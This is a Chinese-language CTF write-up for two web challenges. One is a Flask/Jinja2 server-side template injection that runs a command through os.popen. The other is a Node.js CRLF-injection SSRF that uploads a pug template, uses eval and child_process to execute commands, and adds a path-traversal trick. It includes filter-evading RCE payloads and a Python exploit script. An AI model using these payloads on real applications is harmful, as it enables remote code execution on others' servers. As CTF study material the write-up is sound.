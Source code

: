 ### FlaskApp

Python3.7.4的SSTI，下了个Python3.7的解释器，发现内置类的架构被重构了，之前常用的payload已经不能通过`object.__subclasses__`访问到了

看了一下`_frozen_importlib.BuiltinImporter`可以用，测了一下服务器上的索引是80

EXP：

{% raw %}

```
>>> b("{{''.__class__.__mro__[-1].__subclasses__()[80].load_module('o'+'s')['po'+'pen']('cat this_is_the_fl'+'ag.txt').read()}}")
b'e3snJy5fX2NsYXNzX18uX19tcm9fX1stMV0uX19zdWJjbGFzc2VzX18oKVs4MF0ubG9hZF9tb2R1bGUoJ28nKydzJylbJ3BvJysncGVuJ10oJ2NhdCB0aGlzX2lzX3RoZV9mbCcrJ2FnLnR4dCcpLnJlYWQoKX19'
```

{% endraw %}

### node_game

这题出的不错，有点麻烦，做了四个小时

拿到代码读了一遍就猜到是CRLF注入一个POST请求来上传模板文件来RCE

首先看一下怎么注入，unicode安全问题，参考这个链接`https://xz.aliyun.com/t/2894`

SSRF的流程是：

+ Express获取GET query (此时urldecode一次)
+ 将query拼接到`/source?`后面，丢给http.get请求，此时会urlencode一次
+ CRLF注入一个POST请求访问file_upload接口，HTTP协议报文的控制字符需要是non-encode的

因为payload是在最外层报文的GET query里，所以只能利用node.js中http.get转义unicode的feature来处理特殊字符，GET请求里注入`\u0120, \u010d, \u010a`等字符，Express拿到就是对应unicode，交给http.get则会被转换为对应ascii，而不会被urlencode

请求注入这里比较麻烦，本地监听后慢慢试，除此之外，第一个报文给个keep-alive，防止连接断开（经验之谈，我不确定不加会不会失败）

注入一个POST请求成功后，需要上传一个pug模版，google一下pug模板即可。字符串过滤随便绕一下就行了

```
-var x = eval("glob"+"al.proce"+"ss.mainMo"+"dule.re"+"quire('child_'+'pro'+'cess')['ex'+'ecSync']('whoami').toString()")
-return x
```

上传后需要加载模板，可以看到`/?action=`可加载，不过限制了路径穿越，这里就很刻意了。在上传路由里保存了两次，一个重命名了保存在`dist`，另一个副本保存在`uploads/MIME_TYPE/FILE_NAME`，在MIME里跳一下目录到template就行了

EXP：

```python
import requests


payload = """2 HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive

POST /file_upload HTTP/1.1
Host: 127.0.0.1
Content-Length: {}
Content-Type: multipart/form-data; boundary=------------------------a6a8d18957515a9a

{}""".replace('\n', '\r\n')

body = """--------------------------a6a8d18957515a9a
Content-Disposition: form-data; name="file"; filename="evil2.pug"
Content-Type: ../template

-var x = eval("glob"+"al.proce"+"ss.mainMo"+"dule.re"+"quire('child_'+'pro'+'cess')['ex'+'ecSync']('cat /flag.txt').toString()")
```